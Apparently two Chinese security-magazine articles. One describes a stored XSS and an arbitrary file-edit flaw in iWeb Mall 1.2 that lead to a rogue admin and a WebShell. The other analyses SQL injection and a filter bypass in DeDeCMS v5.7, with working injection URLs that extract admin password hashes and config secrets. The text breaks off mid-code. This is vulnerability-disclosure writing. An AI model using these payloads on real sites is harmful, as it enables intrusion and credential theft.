从 iWeb Mall 多用户商城系统自带的说明书来看，iWeb Mall 属于开源的 LAMP 电子商务系统，它提供了一套轻量级的支持库，这使 iWeb Mall 可以轻松部署在虚拟主机上或者单台服务器上，同时，它可以轻松满足用户量级为百万至千万级的大型电子商务网站的性能要求。可以说 iWeb Mall 是一个比较专业的网络商城系统，如此专业的系统，不知道在安全方面是不是也足够强大，于是，我们对其进行了一次安全测试，结果却令人太跌眼镜，iWeb Mall 非但没有保护好自身的安全，还会令整个服务器都陷入危险的境界当中，如果你不信，那么就请仔细阅读下面的内容。

本次测试的 iWeb Mall 多用户商城系统版本为其最新版 1.2，下载于 iWeb Mall 的官方网站。解压并按照正确步骤将 iWeb Mall 多用户商城系统发布到服务器上（这里在本机上测试），其运行界面如图 1 所示。

从界面上来看，iWeb Mall 多用户商城系统显得比较清爽，模块布局也相对合理。系统支持用户注册，所以我们这里注册了一个名为“test”的用户，使用该用户登录系统，在用户中心单击“申请开店”按钮，这个过程分为 4 步完成。

这个过程分为 4 步完成，我们这里重点关注其中的第二步，如图 2 所示。


图 1



图 2

细心的读者可以发现，我们在图 2“详细地址”一栏中输入了一段脚本代码；从这段脚本代码中，我们似乎判断出这段代码是用来添加一个名为“aaa”的系统管理员。可是，我们现在登录的用户“test”只是一个普通的系统用户，怎么可能越权向系统添加管理员呢？请耐心接着看，单击图 2 中的“创建店铺”按钮后，我们申请开店的信息就提交给了系统，系统需要管理员审核后，才能开通我们的店铺，如图 3 所示。



图 3

现在，退出“test”用户，我们将模拟系统管理员登录系统后台来审核用户申请开店的信息。后台登录地址为：http://127.0.0.1/iwebmall/sysadmin/index.php?。进入后台后，在“商铺管理”中的“未审核商铺”中，我们看到了刚才“test”用户申请开通的店铺，如图 4 所示。


图 4

一般情况下，管理员会查看当前申请开通店铺的信息，于是，他会选择“操作”一栏下的“查看”命令，这个时候，神奇的事情发生了，如图 5 所示。



图 5

图 5 的下方，在显示“详细地址”一栏的右侧出现了一个套嵌框，里面显示“添加成功”。管理员可能不会想到这个莫名其妙的“添加成功”意味着自己已经不是唯一的系统管理员了，如图 6 所示。



图 6

通过查看后台中的管理员列表，我们发现当前系统中多出了一个名为“aaa”的系统管理员，其实，这个管理员就是我们之前在图 2 中添加的那段脚本代码运行后的结果。由于 iWeb Mall 多用户商城系统后台代码在处理用户提交的店铺信息时，对用户提交的内容过滤不严，造成了严重的 XSS 漏洞，借此漏洞，我们可以让管理员在审核用户提交的开店信息时，不知不觉地运行任意脚本代码，包括像前面的添加系统管理员的脚本代码。

现在，我们已经有了系统管理员的权限，可以更改整个网站的信息，查看每一个商家的数据，获取到许多敏感信息。当然，也许你对这些都不在乎，你想获得更大的权限，如能够进入到服务器里看看。你很幸运，iWeb Mall 多用户商城系统的后台存在着一个非常严重的安全漏洞，使得我们可以借此机会控制服务器本身。

选择 iWeb Mall 多用户商城系统后台中的“扩展管理”命令，其中有一个“模板管理”选项，如图 7 所示。



图 7

随意选择其中一个模板，我们就可以对该模板代码进行修改了，这个时候，请右击网页，从弹出的快捷菜单中选择属性命令，如图 8 所示。

我们看到此刻浏览器访问的网址类似：

```text
http://127.0.0.1/iwebmall/sysadmin/m.php?app=tmp_change&tmp_path=default/modules/goods/csv_taobao_img.html
```

其中，“tmp_path”这个参数指明了被修改编辑的模板网页所在路径地址，如果我们修改这个路径地址，将其指向系统自带的某个 php 文件，结果如图 9 所示。



图 8

借助“tmp_path”参数我们可以修改编辑系统中任何一个文件中的内容，于是，可以写一个 WebShell 到系统自带的 php 文件中，然后，借此 WebShell 来进一步控制服务器，提权什么的都是后话了。真是没有想到，从一个 XSS 漏洞开始，我们竟然能够一步一步最终成功渗透进入服务器，iWeb Mall 多用户商城系统的安全漏洞危害确实足够严重，希望本文能够引起其开发者关注，及时修补漏洞。本文旨在讨论安全技术，请读者不要使用本文技术进行任何违法操作，否则作者和杂志概不负责。



图 9

看到图 9 的内容，我想此刻不需要再多解释什么。

### 前置知识：PHP

### 关键词：DeDeCMS

## DeDeCMS v5.7 最新漏洞分析


图/文 Cschi

DeDeCMS（织梦 CMS）是一款国内比较专业的 PHP 网站内容管理系统，从 2004 年发行至今，已经历了无数次的升级和改版，最新版本为 v5.7 正式版，功能也较强。笔者原本以为这应该是一款安全性比较高的 CMS 系统，然而分析后令人感到失望，国内比较专业的系统经历几年发展，其安全还是令人堪忧，或许网络原本就没有绝对的安全。

### 后门漏洞

漏洞一：`/member/ajax_membergroup.php`，页面的 `membergroup` 变量没有过滤导致数字型注入，关键代码如下。

```php
// 编辑分组
elseif($action=='post')
{
    if(empty($membergroup)){
        echo '您还没有设置分组！';
        exit;
    }
    $sql = "UPDATE #@__member_friends SET groupid='{$membergroup}' WHERE fid='{$mid}' AND mid='{$cfg_ml->M_ID}'";
    $clsql->ExecuteNoneQuery($sql);
    $row = $dsql->GetOne("SELECT groupname FROM #@__member_group WHERE mid='{$cfg_ml->M_ID}' AND id='{$membergroup}'"); // 数字型注入
    echo "&nbsp;{$row['groupname']}&nbsp;&nbsp;<a href='#' onclick='EditMemberGroup($mid);return false;'>修改</a>";
}
```

很明显当“`action=post`”时，`$membergroup` 导致数字型注入漏洞。但是 DeDeCMS 在访问 MySQL 数据库之前，使用 `CheckSql()` 自定义函数对 SQL 语句进行安全检查，无法直接注入。

漏洞二：绕过防注入。`CheckSql()` 函数定义在 `/include/dedesql.class.php` 或 `/include/dedesqli.class.php` 数据库类文件中，代码如下。

```php
if (!function_exists('CheckSql'))
{
    function CheckSql($db_string, $querytype='select')
    {
        global $cfg_cookie_encode;
        $clean = '';
        $error = '';
        $old_pos = 0;
        $pos = -1;
        if($querytype=='select')
        {
            $notallow1 = "[^0-9a-z@\._-]{1,}(union|sleep|benchmark|load_file|outfile)[^0-9a-z@\._-]{1,}";
            if(preg_match("/".$notallow1."/", $db_string))
            {
                fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||SelectBreak\r\n");
                exit("<font size='5' color='red'>Safe Alert: Request Error step 1!</font>");
            }
        }
        while(TRUE)
        {
            $pos = strpos($db_string, '\'', $pos+1);
            ...
        }
    }
}
```

```php
if ($pos===FALSE) { break; }
/* ② 假如字符串$db_string中不存在"'"则退出while循环，存在则继续向下执行 */
$clean .= substr($db_string, $old_pos, $pos-$old_pos);
while (TRUE)
{
    ...
    $clean .= '$s$';
    /* ③ 将字符串$db_string中"'"和"'"之间的字符转为"$s$"，即信任其间的字符串，绕过所注入的部分 */
    $old_pos = $pos + 1;
}
$clean = substr($db_string, $old_pos);
$clean = trim(strtolower(preg_replace(array('/\s+/s'), array(''), $clean)));
// ④ "\s" 匹配任何空白字符
// ⑤ 再次检查 union 关键字
if (strpos($clean,'union')!==FALSE && preg_match('/(^|[^a-z])union($|[^a-z])/s', $clean)!=0)
{
    $fail = TRUE;
    $error = 'union detect';
}
// ⑥ 依次检查 --, #, benchmark, load_file, outfile, select 等关键字
elseif (strpos($clean,'sleep')!==FALSE && preg_match('/(^|[^a-z])sleep($|[^a-z])/s', $clean)!=0)
...
if (!empty($fail))
{
    fputs(fopen($log_file,'a+'),"$userIP||$getUrl||$db_string||$error\r\n");
    exit("<font size='5' color='red'>Safe Alert: Request Error step 2!</font>");
}
else
{
    return $db_string;
}
```

语句①使用正则表达式过滤 SQL 关键字，但是因为没有参数“i”，导致可以使用大写绕过，比如“Union”等。`while` 循环实现将字符串（SQL 语句）中转义单引号之间的字符转为“$s$”，不予检查。此举意图是信任转义单引号之间的字符，即允许提交包含 SQL 关键字的文字，比如发表新文章的内容，但是也因此产生了安全漏洞。

漏洞利用。构造 `membergroup` 变量值为 `@'``Union select pwd from `%23@__admin` where 1 or id=@'\''`，注意“Union”不能全为小写“union”，前后使用“@'``”。当变量提交后，SQL 语句成为“SELECT groupname FROM `#@__member_group` WHERE mid=8 AND id=@'\'' Union select pwd from `%23@__admin` where 1 or id=@'\''”。`mid` 为当前用户 id，首先大写 Union 绕过防注入语句①，然后防注入会将“\'”之间的字符串认为可信任，对于其中的字符串不再做防注入过滤，尽管其中含有 union、select 等关键字！在 `CheckSql()` 函数中添加输出语句如下，可以直观地看到转换前后的 SQL 语句及注入结果，如图 1 所示。

```php
echo "原字符串：".$db_string."<br>";
// 完整的 SQL 检查
while (TRUE)
{
    ...
}
$clean = substr($db_string, $old_pos);
$clean = trim(strtolower(preg_replace(array('~\\s+~'), array(' '), $clean)));
echo "转换以后：".$clean."<br>";
...
```



图 1

这里注出的是 `substr(md5($this->userPwd),5,20)` 值，我们可以去掉前 3 位和最后一位，使其成为 16 位 MD5 码，如“7a57a5a743894a0e”，再进行暴力破解。常用的注入链接如下。

> http://127.1/member/ajax_membergroup.php?action=post&membergroup=@'`` Union select value from `%23@__sysconfig` where aid=3 or aid=@'``

/* 在获得 `$cfg_cookie_encode` 后，我们可以直接利用漏洞二。另外在“/data/”.md5($cfg_cookie_encode)."safe.txt" 文件中记录着注入痕迹 */

漏洞二：`/member/edit_fullinfo.php` 页面，即更改详细资料页面，如图 2 所示。



图 2

该页面中 `$inadd_f` 变量没有过滤导致注入，代码如下。

```php
if($dopost=='save'){ // 这里完成详细内容填写
    if(!empty($dede_fields)){
        if($dede_fieldshash != md5($dede_fields.$cfg_cookie_encode)){
            ShowMsg('数据校验不对，程序返回','-1');
            exit();
        }
    }
    $modelform = $dsql->GetOne("SELECT * FROM #@__member_model WHERE id='$modid'");
    if(!is_array($modelform)) { ShowMsg('模型表单不存在','-1'); exit(); }
    $inadd_f='';
    if(!empty($dede_fields)){
        $fieldarr = explode(';', $dede_fields); // ③ 用“;”将 $dede_fields 变量分割成为数组
        if(is_array($fieldarr)){
            foreach($fieldarr as $field){
                if($field=='') continue;
                $fieldinfo = explode(',', $field); // ④ 用“,”将 $field 分割成为数组
                if($fieldinfo[1]=='textdata'){
                    ${$fieldinfo[0]} = FilterSearch(stripslashes(${$fieldinfo[0]}));
                    ${$fieldinfo[0]} = addslashes(${$fieldinfo[0]});
                }
            }
        }
    }
}
```



通过分析可以得出：

- ① `$cfg_cookie_encode` 值必须已知，才能提交符合条件的 `$dede_fieldshash`；提交的 `$modid` 值必须正确，查看该页面源码即可获得 `$modid` 值。
- ② `$dede_fields` 变量形式必须为“变量1名称，变量1类型，变量2名称，变量2类型…”，最后 `$inadd_f` 变量值为“，变量1名称='变量1值'，变量2名称='变量2值'…”。
- ③ `$inadd_f` 直接引入 SQL 语句，因此可以使用自查询将需要注出的内容写入个人资料中。

获取 `$cfg_cookie_encode` 值。此值是能否成功利用漏洞二的关键，除了利用漏洞一外，还可以通过暴力破解 MD5 码获取。使用 `$cfg_cookie_encode` 变量的用户页面很多，我们选择“上传软件”页面，查看页面源码，搜索“dede_fieldshash”字符串，如图 3 所示，其中 `$dede_fieldshash` 值为 MD5($dede_addonfields.$cfg_cookie_encode)。由于 `$dede_addonfields` 值为空，所以获得的 `$dede_fieldshash` 值就是 `$cfg_cookie_encode` 变量的 MD5 码。



图 3

DeDeCMS 安装时，`$cfg_cookie_encode` 变量默认生成规则为：

```php
